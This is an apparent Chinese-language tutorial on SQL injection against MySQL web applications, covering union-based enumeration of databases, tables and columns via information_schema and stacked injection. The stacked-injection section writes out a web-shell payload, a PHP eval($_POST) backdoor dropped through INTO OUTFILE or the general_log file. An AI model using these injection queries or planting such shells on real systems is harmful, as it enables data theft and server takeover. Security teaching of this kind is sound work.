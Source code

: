 ~~只会注入~~

sql注入是web的早期漏洞，常存在于各种早期的查询，到了现代，sql注入已经演化为了各种不同的数据库注入形式。

# 一、数据库介绍：
数据库是存放数据的仓库，是存放数据的仓库，
大多数的数据库为关系型数据库：
结构为：库->表->列->行
而sql语言就是一种用于数据库的语言，用于告诉数据库我需要什么，有什么需要查询。
而作为一门语言，sql注入就是一种很特别的文字游戏，而sql语句最搞笑的是：他放入其中的填充竟然具有代码效力，例如注释真的可以执行，引号括号之类的真的可能造成不闭合的报错;

一些常用的sql语句：
```sql
# 一些SQL注入常用的函数
version()                 # 查看数据库版本
database()                # 查看当前数据库名
user()                    # 查看当前数据库用户
system_user()             # 查看系统用户名
group_concat()            # 把数据库中的某列数据或某几列数据合并为一个字符串
@@datadir                 # 查看数据库路径
@@version_compile_os      # 查看操作系统
```

在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个information_schema的数据库，该数据库中包含了当前系统中所有的数据库、表、列、索引、视图等相关的元数据信息，是MySql自身信息元数据的存储库，我们需要记住三个表名，分别是 schemata，tables，columns。

根据这一个特点，我们可以做一些操作，来盗取一些有意思的内容，比如，我们可以通过,联合查询等方式来直接查出其中的敏感数据。

# 二、注入方式介绍
## 1、联合注入查询
传统派，最最经典的sql注入方式，利用union语句，同时加上注释，将数据库中的敏感信息脱出来。
这里介绍联合注入的手法：
首先，进行测试，检测语句的包裹形态，检查在什么状态下，语句将出现报错，以此查看其中的包裹，可以利用万能密码字典fuzz一下，可以比较详细的知晓其中的过滤点，一些检测后出现的绕过将在后文中提及。
这里注意，注释的形式与提交信息的方式有关系，如果是一GET方式提交，注释将是 --+ ， 而如果以POST方式提交信息，则会以#为注释。
好，我们继续，

我们输入后看看回显在哪里，此时，查询的结果**通常**会显示在你的电脑上，没有的情况，先不要慌，因为还有很多种可能性。

即使完全没有回显，通过一些方式来判断一些内容的，而且，有一些查询是一定有结果的：

这其中的代表是列数判断的函数 order by ：

order by 1啊2啊3啊4啊…………

即使没有回显，这里在超出列数时是会出现报错的，**如果报错**那就需要考虑其他不同的注入手法了。
那么，假设此时我们已经拿到了列数的数量，在良好的情况下，我们会看见回显。
此时，你会知道回显的位置，在这个前提之下，我们开始一套常规注入的组合拳：
爆库，爆表，爆字段，爆数据
```SQL
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```
可以查询到表的名称，此时，进一步查询
```SQL
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
注意，在注入的过程之中，使用GROUP_CONCAT()函数是一个好习惯，因为有很多的查询只会输出一个结果，而不是多个结果，这个函数将大量的结果拼接进入了一个结果之中，以便能够正常的进行输出。如果此函数被过滤，首先考虑绕过，如若无法绕过，那么就使用limit函数将结果限制在一行，然后一行一行的看。
最后，使用相同的方式进行爆内容就可以了。

ok，最基础的联合注入就结束了。

## 2、堆叠注入：
堆叠注入的危害性相较于联合注入更大，如果说联合注入是纯看的话，堆叠注入给予了攻击者直接操作数据库的权利。
在这里先介绍sql相关的全局变量，sql的全局变量是一种特殊的变量。他决定了数据库中的部分有什么样的权限
比如secure_file_priv对读写文件有影响，若目录在这个变量之中，说明数据库对这个路径的文件有操作的权限。还有很多，这里不一一介绍了。
接下来介绍堆叠注入。
有如下的例子：
```SQL
 select phone,e_mail from guests;select username,password from users;
```
可以发现，在样例中，在一行里嵌套了两条语句，也就是说，在实战之中，我们将语句连起来执行了，因此，我们将不止是可以进行查询操作，而是更进一步能实现修改，增加，删除的操作，因而，我们可以使用这一漏洞实现木马的写入。
样例：
```sql
select "<?php phpinfo();?>" into outfile "/tmp/1.php"；
```
但是，通常情况之下secure_file_priv 被设置为NULL，那么是否是无法利用了？
这里，我们引入堆叠注入
堆叠注入的判断方法：
名称处加单引号报错，加双引号不报错，加单引号和分号不报错，说明存在堆叠注入
参考的使用方法：
```
set global general_log=on;#开启日志记录
set global general_log_file='C:/1.php';#设置日志保存路径
select '<?php eval($_POST['a']) ?>';#写入木马
```


